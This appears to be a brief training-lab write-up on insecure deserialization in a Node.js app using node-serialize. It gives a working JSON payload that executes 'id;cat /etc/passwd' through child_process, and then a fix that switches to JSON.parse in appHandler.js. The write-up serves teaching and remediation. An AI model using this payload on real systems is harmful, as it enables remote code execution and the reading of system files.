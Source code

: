 
## Exploitation 

Json to exploit the vulnerability 
```json
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

which is the serialized version of
```js
var y = {
 rce : function(){
 require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });
 }(),
}
```


## Fix
---

Change the way we deserialize 

#### Changes to `appHandler.js`
```js
// Remove 
var products = serialize.unserialize(req.files.products.data.toString('utf8'))

// Add the following code		
var products = JSON.parse(req.files.products.data.toString('utf8'))
```


